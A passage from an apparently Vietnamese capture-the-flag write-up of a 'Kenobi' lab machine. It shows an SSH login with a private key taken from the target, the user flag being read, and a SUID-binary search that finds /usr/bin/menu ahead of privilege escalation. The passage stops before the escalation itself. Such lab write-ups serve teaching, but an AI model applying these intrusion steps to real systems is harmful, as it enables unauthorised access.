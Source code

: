 ```
drwx------  3 root root 4096 Sep  4  2019 systemd-private-6f4acd341c0b40569c92cee906c3edc9-systemd-timesyncd.service-z5o4Aw                                                                                               
drwx------  3 root root 4096 Jul 29 03:03 systemd-private-b646fe2249974d4e86151803caa0fbb1-systemd-timesyncd.service-9ilJJi                                                                                               
drwx------  3 root root 4096 Sep  4  2019 systemd-private-e69bbb0653ce4ee3bd9ae0d93d2a5806-systemd-timesyncd.service-zObUdn  
```
## SSH 
Sau khi có file private key ta tiến hành login
```
┌──(kali㉿kali)-[~/tmp]
└─$ sudo ssh -i id_rsa kenobi@10.10.169.181
The authenticity of host '10.10.169.181 (10.10.169.181)' can't be established.
ED25519 key fingerprint is SHA256:GXu1mgqL0Wk2ZHPmEUVIS0hvusx4hk33iTcwNKPktFw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.169.181' (ED25519) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ cat /home/kenobi/user.txt 
d0b0f3f53b6caa532a83915e19224899
```
## SUID 
Chạy file và thấy được có `/usr/bin/menu` đặc biệt và có thể khai thác không bị deny
```
find / -type f -perm -04000 -ls 2>/dev/null
```
Chạy xem nó hiển thị gì
```
kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
HTTP/1.1 200 OK
Date: Mon, 29 Jul 2024 08:08:56 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Wed, 04 Sep 2019 09:07:20 GMT
ETag: "c8-591b6884b6ed2"
Accept-Ranges: bytes
Content-Length: 200
Vary: Accept-Encoding
Content-Type: text/html
```

